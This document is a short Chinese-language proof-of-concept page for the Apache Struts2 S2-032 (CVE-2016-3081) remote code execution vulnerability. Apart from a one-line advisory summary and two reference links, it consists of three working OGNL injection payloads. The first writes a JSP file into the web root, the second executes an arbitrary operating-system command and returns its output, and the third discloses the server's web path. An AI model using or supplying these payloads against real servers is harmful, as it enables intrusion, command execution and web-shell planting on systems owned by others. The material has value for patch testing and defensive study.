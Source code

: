 2016年4月21 `Apache Struts2` 官方发布了一份安全公告: `服务在开启动态方法调用的情况下可以远程执行任意命令`,官方编号 `S2-032`,CVE编号 `CVE-2016-3081`

## 漏洞利用流程
客户端请求 `http://{webSiteIP.webApp}:{portNum}/{vul.action}?method={malCmdStr}`

## POC
#### 上传文件
```
method:%23_memberAccess%[email]3d@ognl.OgnlContext[/email]@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23path%3d%23req.getRealPath(%23parameters.pp[0]),new%20java.io.BufferedWriter(new%20java.io.FileWriter(%23path%2b%23parameters.shellname[0]).append(%23parameters.shellContent[0])).close(),%23w.print(%23path),%23w.close(),1?%23xx:%23request.toString&shellname=uptest.jsp&shellContent=UpFile_test&encoding=UTF-8&pp=%2f
```

#### 执行命令
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=id&pp=\\A&ppp=%20&encoding=UTF-8
```

#### 获取web路径
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest%28%29,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29,%23res.setCharacterEncoding%28%23parameters.encoding[0]%29,%23path%3d%23req.getRealPath%28%23parameters.pp[0]%29,%23w%3d%23res.getWriter%28%29,%23w.print%28%23path%29,1?%23xx:%23request.toString&pp=%2f&encoding=UTF-8
```

## 参考
* [Struts2 漏洞分析及如何提前预防](http://my.oschina.net/secisland/blog/668647?fromerr=7rH2lggd#OSC_h4_2)
* [WoonYun - Struts2方法调用远程代码执行漏洞](http://drops.wooyun.org/papers/15430)

